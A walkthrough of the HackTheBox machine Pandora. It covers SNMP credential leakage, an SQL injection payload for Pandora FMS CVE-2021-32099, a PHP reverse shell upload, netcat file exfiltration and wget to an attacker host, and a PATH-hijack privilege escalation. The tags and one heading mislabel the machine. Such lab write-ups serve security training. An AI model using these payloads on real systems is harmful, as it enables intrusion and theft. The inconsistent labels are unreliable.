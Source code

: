 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-25-pandora-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Pandora @ HackTheBox
---
```


Pandorais a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. Initial access is gained through enumerating a exposed UDP port of 161, running snmpbulkwalk on the exposed port reveals a username and password which allows for SSH access. The user flag is obtained by enumerating the Apache2 folder and finding a hidden domain, port-forwarding this domain to your local machine and using a CVE gains you access to the administrator panel. Uploading a malicious extension gains access to the 'Matt' account. To gain root, running linpeas exposes a hidden backup file. Transfering this file to your local machine and running strings on the executeable exposes a path injection vulnerability. But due to some-weird apache-ness, you will need to upload your own SSH public key in order to exploit this properly.

## User & Root Flag
This post is a walkthrough for Builder, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.190.120`) shows the following results:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

However, port 80 has nothing of use. (use -v because this scan takes ages)
The UDP port scan (though time-consuming) reveals port 161.
```
sudo nmap -sU 10.129.190.120 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-23 02:04 BST
Initiating Ping Scan at 02:04
Scanning 10.129.190.120 [4 ports]
Completed Ping Scan at 02:04, 0.05s elapsed (1 total hosts)
Initiating UDP Scan at 02:04
Scanning Panda.htb (10.129.190.120) [1000 ports]
Discovered open port 161/udp on 10.129.190.120
```

## Daniel - user 1
because snmp outputs tons of information, download this to reduce the excess junk.
```
sudo apt install snmp-mibs-downloader
sudo nano /etc/snmp/snmp.conf
//comment mibs out
```
use snmpbulkwalk to enumerate port 161.
```
snmpbulkwalk -c public -v2c 10.129.190.120 . > snmpcheck
```

Once finished, we can use grep to see how many times a parameter has been issued.
```
grep -oP '::.*?\.' snmpcheck | sort | uniq -c | sort -n 
```
The main ones we care about are:
- hrSWRunParameters
- hrSWInstalled

Grepping out the file and searching for `hrSWRunParameters` eventually reveals a username and password.
```
cat snmpcheck | grep hrSWRunParameters
OST-RESOURCES-MIB::hrSWRunParameters.963 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p <REDACTED>'"

// you can also check to see what was happening by filtering out the task number (not required)
grep hrSWRun snmpcheck | grep 963 
```

Use these credentials on daniel's SSH service.
```
ssh daniel@10.129.190.120
```
Enumerating the Apache2 sites-available exposes a hidden domain under localhost.
```
daniel@pandora:/etc/apache2/sites-enabled$ cat ../sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

To access this, we have to first port-forward port 80 to our local machine.
```
ssh daniel@10.129.190.120 -L 8000:127.0.0.1:80
// explaination
First we take our port which is 8000 (this is the port we will visit)
127.0.0.1 is the local host on the victims machine where the service is running from
port 80 is the port we want to forward.
```
Once forwarded, visit `http://localhost:8000`
Doing some research on pandorafms reveals an unauthenticated SQL injection attack which gains administrator access.<br>
`https://github.com/akr3ch/CVE-2021-32099`<br>

Copying and executing this gains administrator access.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```
![admin](admin.PNG)

## Matt - user 2
Once admin access has been established, there are different ways you can get internal access, either by using another CVE (authenticated) or by uploading your own php reverse shell.<br>
To upload your own php reverse shell follow these steps:
```
1 - Make a PHP reverse shell (pentest monkey works fine)
2 - Zip it (important)
3 - Visit http://localhost:8000/pandora_console/index.php
4 - go to Admin Tools → Extension Manager → Extension Uploader
5 - Upload your zipped reverse shell.
6 - set up netcat listener (nc -lvnp 1234)
6 - Trigger shell by visiting http://localhost:8000/pandora_console/extensions/rev.php
```

If everything goes well, you now have access to matt's account.
As matts shell is not stable, lets upgrade it.
```
< INSIDE MATTS SHELL >
[Shell] python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo; fg
[Shell] export TERM=xterm
```

Once you have upgraded matts shell, grab his user flag.

## Root
upload linpeas to the machine and run it
```
[you] python3 -m http.server 80
[victim] wget http://your_ip:80/linpeas.sh
[victim] chmod +x linpeas.sh
[victim] .\linpeas.sh
```
Eventually you find that netcat is installed and a hidden backup folder exists at `/usr/bin/pandora_backup`<br>
Because you can't use strings on the machine, we have to transfer it off.
Theres different ways you can do this i.e. wget etc, but I'm using nc for simplicity.
```
[VICTIM]nc your_ip 9002 < /usr/bin/pandora_backup
[YOU]nc -lvnp 9002 > pandora_backup
```

Run strings on the downloaded file and you'll spot a command
```
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
Because this uses a relative path and not an absoulte path i.e. (/usr/bin/tar), it's vulnerable to a PATH injection attack.
But before we can do that, we have to upload our own SSH public key due to apache.
```
[YOU] ssh-keygen -f matt
[victim] mkdir .ssh
[victim] wget your_ip:80/matt.pub
[victim] mv matt.pub authorized_keys
[YOU] ssh -i matt matt@10.129.190.120

// if this doesnt work
[victim] chmod 700 ~/.ssh
[victim] chmod 600 ~/.ssh/authorized_keys
```

Export your path and run the command to gain root.
```
matt@pandora:~$ which tar
/usr/bin/tar
matt@pandora:~$ echo /bin/bash > tar
chmod +x tar

// path hijack
export PATH=/home/matt:$PATH
matt@pandora:~$ which tar
/home/matt/tar

matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# 
```